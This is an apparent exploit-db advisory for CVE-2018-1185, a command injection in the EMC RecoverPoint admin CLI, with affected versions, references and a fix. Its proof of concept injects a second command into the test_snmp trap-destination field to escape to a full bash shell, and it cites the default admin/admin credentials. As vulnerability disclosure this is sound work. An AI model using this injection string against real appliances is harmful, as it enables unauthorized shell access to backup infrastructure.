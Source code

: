 ## EMC RecoverPoint Admin CLI Command Injection test_snmp

- Version: RecoverPoint prior to 5.1.1 RecoverPoint for VMs prior to 5.0.1.3
- Date: 2018-05-11
- Vendor Advisory: http://seclists.org/fulldisclosure/2018/Feb/9
- Exploit Author: Paul Taylor (@bao7uo) / Foregenix Ltd
- Github: https://github.com/bao7uo
- Tested on: RecoverPoint for VMs 4.3, RecoverPoint 4.4.SP1.P1
- CVE: CVE-2018-1185
- Exploit-db: https://www.exploit-db.com/exploits/44614/

## 1. Description

An OS command injection vulnerability resulting in code execution as the built-in admin user (default credentials admin/admin).

A crafted entry can result in the ability to escape from the restricted admin user's menu driven CLI to a full Linux operating system shell in the context of the admin user. The attack vector is the trap destination (hostname/IP) parameter of the test_snmp function.
 
## 2. Proof of Concept

```
RecoverPoint> test_snmp
Enter the trap destination (host name or IP)
 > /dev/null 2>&1 ; bash #
admin@RecoverPoint:/home/kos/cli$ exit
exit
Test completed successfully.
RecoverPoint> 
```

## 3. Solution:
    
Update to latest version of RecoverPoint
